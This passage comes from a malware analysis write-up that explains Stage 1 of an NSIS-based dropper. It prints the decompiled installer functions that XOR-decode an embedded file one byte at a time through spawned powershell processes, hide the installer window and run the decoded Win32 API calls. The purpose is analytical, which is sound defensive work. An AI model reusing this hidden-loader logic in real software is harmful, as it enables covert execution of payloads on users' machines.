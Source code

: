 ## Stage 1 - Decoding and Preparation

Upon inspection of the NSIS script (`[NSIS].nsi`), it becomes obvious that it decodes the file `Hosannaed.dix` by continuously reading two bytes (ASCII chars) from `Hosannaed.dix` starting at offset 8246 (decimal) and passing them to the NSIS script function **"func_13"**. This function calls the function "nsExec::ExecToStack" from the `nsExec.dll` in the plugin directory which itself is used to call powershell.exe on the system.

// TODO: explain func_47 more

```nsis
Function func_47
  Pop $_58_ ; $INSTDIR\Hosannaed.dix
  FileOpen $_59_ $_58_ r ; $_59_ = content/handle of $INSTDIR\Hosannaed.dix
  FileSeek $_59_ 8246 ; seek at offset 8246 in file
  FileRead $_59_ $_60_ ; read file contents to var $_60_ (from specified offset)
label_51:
  StrCpy $_59_ $_60_ 2 $_56_ ; copy 2 chars from var $_60_ (Hosannaed.dix) with offset var $_56_ (counter) to var $_59_
  Call func_13 ; decrypt 2 ascii chars to one byte with powershell
  IntFmt $_55_ %c $_59_ ; Format xored output as ascii char
  IntOp $_56_ $_56_ + 2 ; Inc counter var $_56_ by 2 because we read two chars
  StrCmp $_55_ _ label_58 ; Check if last char was "_", if yes, jump to label_58, else continue with next line
  StrCpy $_57_ $_57_$_55_ ; append char to result string ($_57_)
  Goto label_51 ; Go to top of loop & start next loop cycle
label_58:
  IntOp $_56_ $_56_ + 4 ; Inc counter by 4 because we skip 0x0d 0x0a (newline)
  HideWindow ; Hide the installer window
  System::Call $_57_ ; Use System.dll from plugins to Call the result string we read from the file (Win32 API)
  StrCpy $_57_ "" ; Empty result string for next loop cycle
  Goto label_51 ; Go to top of loop & start next loop cycle
FunctionEnd
```

### Decrypting with Powershell

The newly spawned powershell process is passed two arguments: Two ascii characters from `Hosannaed.dix`, which are being interpreted as one hex character and a single byte key, `51` (decimal), to decode the passed hex byte.

```nsis
Function func_13
  StrCpy $0 0x$_59_
  StrCpy $9 51
  nsExec::ExecToStack "powershell.exe $0 -bxor $9"
  Pop $_59_
  Pop $_59_
FunctionEnd
```

For each two ascii characters the script will call `func_13` and hence start one individual powershell process with a distinct process command line.
This whole decrypting procedure takes a while, because it's pretty expensive to start that many processes, one for each byte the malware needs to decrypt.
When logging the process command lines, the output looks something like this.
